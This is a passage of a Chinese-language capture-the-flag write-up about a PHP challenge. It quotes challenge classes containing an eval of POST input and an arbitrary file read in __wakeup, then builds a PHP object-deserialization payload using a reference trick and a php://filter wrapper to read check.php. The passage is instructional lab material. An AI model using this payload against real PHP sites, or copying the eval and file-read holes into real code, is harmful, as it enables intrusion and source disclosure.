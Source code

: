 
我们观察到：`$_SERVER["HTTP_AAAAAA"]` ，意思是我们需要在header头中传入名为`AAAAAA`的头，进行传参

首先我们看到类 `cycycycy`：

```php
class cycycycy{
    public $a;
    public function aaa(){
        $get = $_GET['get'];
        $get = cipher($get);
        if($get === "p8vfuv8g8v8py"){
            eval($_POST["eval"]);
        }
    }
}
```

这里可以进行代码执行，但是我们并不知道`cipher()`函数是什么，并且需要使get传参后的值经过cipher加密后为：`p8vfuv8g8v8py`，`cipher()`应该是在`check.php`中



然后我们注意到类 `w_wuw_w`：

```php
class w_wuw_w{
    public $aaa;
    public $key;
    public $file;
    public function __wakeup(){
        if(!preg_match("/php|63|\*|\?/i",$this -> key)){
            $this->key = file_get_contents($this -> file);
        }
    }
}
```

这里存在文件包含漏洞，于是我们想要去读取`check.php`，构造：

```php
<?php
class w_wuw_w
{
    public $aaa;
    public $key;
    public $file;


}
$a = new w_wuw_w();
$a->file = "php://filter/convert.base64-encode/resource=check.php";
$a->aaa=&$a->key;
echo serialize($a);

输出：
O:7:"w_wuw_w":3:{s:3:"aaa";N;s:3:"key";R:2;s:4:"file";s:53:"php://filter/convert.base64-encode/resource=check.php";}
```
